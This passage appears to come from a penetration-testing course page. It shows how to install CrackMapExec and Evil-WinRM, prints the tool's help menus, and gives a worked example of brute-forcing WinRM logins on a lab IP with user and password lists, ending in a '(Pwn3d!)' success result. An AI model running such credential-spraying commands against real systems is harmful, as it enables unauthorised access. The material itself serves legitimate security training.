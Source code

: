 ```shell-session
[!bash!]$ sudo apt-get -y install crackmapexec
```

Note: Alternatively, we can install [NetExec](https://github.com/Pennyw0rth/NetExec) to follow along using `sudo apt-get -y install netexec`

#### CrackMapExec Menu Options

Running the tool with the `-h` flag will show us general usage instructions and some options available to us.

```shell-session
[!bash!]$  crackmapexec -h
usage: crackmapexec [-h] [-t THREADS] [--timeout TIMEOUT]
                    [--jitter INTERVAL] [--darrell]
                    [--verbose]
                    {mssql,smb,ssh,winrm} ...
```

#### CrackMapExec Protocol-Specific Help

Note that we can specify a specific protocol and receive a more detailed help menu of all of the options available to us. CrackMapExec currently supports remote authentication using MSSQL, SMB, SSH, and WinRM.

```shell-session
[!bash!]$ crackmapexec smb -h

usage: crackmapexec smb [-h]
```

#### CrackMapExec Usage

The general format for using CrackMapExec is as follows:

```shell-session
[!bash!]$ crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

```shell-session
[!bash!]$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

The appearance of `(Pwn3d!)` is the sign that we can most likely execute system commands if we log in with the brute-forced user. Another handy tool that we can use to communicate with the WinRM service is [Evil-WinRM](https://github.com/Hackplayers/evil-winrm), which allows us to communicate with the WinRM service efficiently.

#### Evil-WinRM

#### Installing Evil-WinRM

```shell-session
[!bash!]$ sudo gem install evil-winrm

Fetching little-plugger-1.1.4.gem
```
